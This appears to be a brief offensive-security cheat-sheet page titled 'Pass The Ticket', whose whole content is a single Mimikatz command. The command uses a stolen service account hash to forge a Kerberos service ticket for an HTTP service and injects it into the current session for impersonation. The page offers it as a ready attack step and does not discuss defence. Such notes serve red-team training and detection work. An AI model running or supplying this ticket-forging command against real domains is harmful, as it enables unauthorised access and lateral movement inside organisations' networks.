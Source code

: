 # Pass The Ticket

#### Mimikatz

{% code overflow="wrap" %}
```
kerberos::golden /user:compromised_user /domain:domain.com /sid:domain-sid /target:web.domain.com /service:http /rc4:service_hash /ptt
```
{% endcode %}
